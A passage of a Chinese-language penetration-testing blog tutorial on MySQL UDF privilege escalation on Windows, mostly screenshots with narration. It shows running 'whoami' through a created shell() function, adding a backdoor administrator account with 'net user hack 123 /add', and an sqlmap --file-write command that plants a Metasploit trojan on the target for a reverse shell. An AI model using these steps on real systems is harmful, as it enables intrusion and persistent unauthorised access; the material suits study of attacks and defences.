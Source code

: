 

![](https://img-blog.csdnimg.cn/20181206193048723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后我们访问 udf.php 页面，并且用数据库的账户名和密码登录。这是登录后的页面



![](https://img-blog.csdnimg.cn/20181206193217934.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后我们点击 Dump UDF ，提示Dump DLL Success ！



![](https://img-blog.csdnimg.cn/20181206193309353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后我们点击 Create Function，下面就会有 select  shell('cmd','whoami') ，然后我们点击 Mysql\_query ，下面就会有whoami命令的执行结果



![](https://img-blog.csdnimg.cn/20181206193448733.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我们可以把命令换成  net  user   hack  123  /add  ，新建一个用户，可以看到成功了！然后我们接下来吧hack用户添加到administrators管理员组内，就可以远程登录了！



![](https://img-blog.csdnimg.cn/2018120619374269.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### UDF提权后如何反弹shell



当UDF提权后，我们想反弹一个MSF或者CS的shell。



首先使用CS的Powershell反弹命令是不行的，这里由于powershell命令引号过多，不能执行。



我们现在的思路是执行木马文件，反弹shell。这里由于sys\_eval函数不能执行windows那些远程下载命令，所以我们选择通过sqlmap的写入文件功能，将木马写入当前目录。



首先，查看当前目录



![](https://img-blog.csdnimg.cn/20200508093222666.png)



然后sqlmap写入木马。这里本来是准备远程下载的，但是发现 certutil 和 bitsadmin 执行都发生错误，有可能是这个机器的问题。



```
sqlmap -u "http://192.168.10.130/?id=2" --file-write msf.exe --file-dest "C:\phpStudy\PHPTutorial\MySQL\data\hack.exe"
```
